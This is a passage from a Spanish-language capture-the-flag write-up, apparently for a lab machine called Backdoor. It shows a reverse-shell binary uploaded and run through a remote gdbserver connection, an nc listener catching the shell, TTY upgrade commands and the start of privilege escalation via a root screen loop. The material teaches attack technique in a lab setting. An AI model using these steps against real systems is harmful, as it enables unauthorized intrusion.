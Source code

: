 Con esa conexión puedo subir el binario.

    (gdb) remote put rev.elf /dev/shm/rev
    Successfully sent file "rev.elf".

Ahora sólo necesito configurar el objetivo de depuración remota para ese archivo y ejecutarlo.

    (gdb) set remote exec-file /dev/shm/rev
    (gdb) run
    The program being debugged has been started already.
    Start it from the beginning? (y or n) y
    Starting program:  
    Reading /dev/shm/rev from remote target...
    Reading /dev/shm/rev from remote target...
    Reading symbols from target:/dev/shm/rev...
    (No debugging symbols found in target:/dev/shm/rev)
    [Detaching after fork from child process 33603]
    [Inferior 1 (process 33592) exited normally]

cuando termine deberiamos ttener coneccion en nuestra nc 

- nc -lnvp 443

    Listening on 0.0.0.0 443
    Connection received on 10.10.11.125 46586
    id
    uid=1000(user) gid=1000(user) groups=1000(user)

configuramos la shell:

- script /dev/null -c bash
- ctrl + z
- stty raw -echo: fg
- reset xterm
- export TERM=xterm
- uname -a

una ves dentro buscamos y vemos la flag de user sin problemas

La forma más sencilla de explotar esto es utilizando Metasploit.

## Escalamiento de privilegios:

Mirando los procesos anteriores, salta a la vista otro. Desde un caparazón, es más fácil ver: 

user@Backdoor:/home/user$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
...[snip]...
root         853  0.0  0.0   2608  1828 ?        Ss   16:43   0:05 /bin/sh -c while true;do sleep 1;find /var/run/screen/S-root/ -empty -exec screen -dmS root \ ; done
...[snip]...

algo esta corriendo screencomo raíz (en un bucle) como raíz.

/bin/sh -c while true;
    do sleep 1;
    find /var/run/screen/S-root/ -empty -exec screen -dmS root \ ;
done
